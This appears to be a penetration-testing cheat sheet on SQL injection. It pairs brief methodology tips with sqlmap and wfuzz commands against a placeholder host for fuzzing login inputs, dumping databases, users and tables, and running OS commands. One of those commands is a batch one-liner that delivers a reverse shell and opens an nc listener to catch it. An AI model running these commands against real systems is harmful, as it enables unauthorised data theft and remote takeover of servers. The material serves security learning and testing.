 # SQL Injection

## Questions to ask yourself
  *  What inputs of the web application are likely to be part of a query?
  *  Do any behaviors of the web app imply DBMS function calls?

## Things to remember
  *  Injection syntax depends on the DBMS under the hood: **Google everything**
      *  Error outputs can reveal **A LOT** about the underlying DBMS
  *  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) for various SQL injection techniques
  *  Watch for filters such as case-sensitivity, whitespace removal, blacklists, etc.

## Useful tools
  *  [`sqlmap`](https://sqlmap.org/) for various SQLi interactions
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) for manually fuzzing web app inputs for SQLi

## Fuzzing for SQL injection
  *  `sqlmap` is the go-to for SQLi fuzzing
      *  Specify files containing request text for HTTP POST fuzzing
  *  `wfuzz` for applying lists of SQLi techniques
      *  Consider applying HTTP headers/POST data matching inital browsing requests

```
sqlmap -u 'http://10.0.0.1/login'
sqlmap -r http-post-request.txt
```

```
wfuzz -w /path/to/sqli.txt 'http://10.0.0.1/login?username=FUZZ&password=test'
wfuzz -w /path/to/sqli.txt -d 'username=FUZZ&password=test' 'http://10.0.0.1/login'
```

## Automated DB dumping
  *  `sqlmap` for automatically dumping data from vulnerable applications

```
sqlmap -r http-post-request.txt --current-db
sqlmap -u 'http://10.0.0.1/login' --current-user
sqlmap -u 'http://10.0.0.1/login' -D exampleDB --tables
```

## Automated code execution
  *  `sqlmap` for automatically attempting code execution via SQLi
      *  Extended help page `-hh` for detailed OS access options
  *  Headless/batch options for code exec one-liners

```
sqlmap -u 'http://10.0.0.1/login' --os-cmd='cmd /c calc.exe'
sqlmap -r http-post-request.txt --os-cmd='[POWERSHELL BASE64 REVERSE SHELL]' --answers='follow=Y' --batch > /dev/null & nc -nvlp 80
```
